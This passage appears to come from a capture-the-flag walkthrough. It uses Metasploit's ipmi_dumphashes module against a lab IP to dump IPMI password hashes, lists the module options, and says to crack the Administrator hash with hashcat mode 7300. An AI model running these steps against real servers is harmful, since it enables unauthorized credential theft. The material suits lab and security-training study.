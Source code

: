 ### Auxiliary given below

```
auxiliary/scanner/ipmi/ipmi_dumphashes
```

### Result

```
msf6 auxiliary(scanner/ipmi/ipmi_version) > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 
 
Module options (auxiliary/scanner/ipmi/ipmi_dumphashes): 
 
   Name                  Current Setting                  Required  Description 
   ----                  ---------------                  --------  ----------- 
   CRACK_COMMON          true                             yes       Automatically crack common passwords as they are obtaine 
                                                                    d 
   OUTPUT_HASHCAT_FILE                                    no        Save captured password hashes in hashcat format 
   OUTPUT_JOHN_FILE                                       no        Save captured password hashes in john the ripper format 
   PASS_FILE             /usr/share/metasploit-framework  yes       File containing common passwords for offline cracking, o 
                         /data/wordlists/ipmi_passwords.            ne per line 
                         txt 
   RHOSTS                                                 yes       The target host(s), see https://github.com/rapid7/metasp 
                                                                    loit-framework/wiki/Using-Metasploit 
   RPORT                 623                              yes       The target port 
   SESSION_MAX_ATTEMPTS  5                                yes       Maximum number of session retries, required on certain B 
                                                                    MCs (HP iLO 4, etc) 
   SESSION_RETRY_DELAY   5                                yes       Delay between session retries in seconds 
   THREADS               1                                yes       The number of concurrent threads (max one per host) 
   USER_FILE             /usr/share/metasploit-framework  yes       File containing usernames, one per line 
                         /data/wordlists/ipmi_users.txt 
 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set RHOSTS 10.10.11.124 
RHOSTS => 10.10.11.124 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > exploit
 
DO YOURSELF
```

## Now we got hash of Administrator let's try to crack this hash . For cracking the hash we first need to identify the hash type.
### Hash-Identifier doesn't find hash type let's do a manual search for ipmi hash. Go to https://hashcat.net/wiki/doku.php?id=example_hashes and search for ipmi2 we found 7300 mode. Let's use hashcat for cracking this hash.
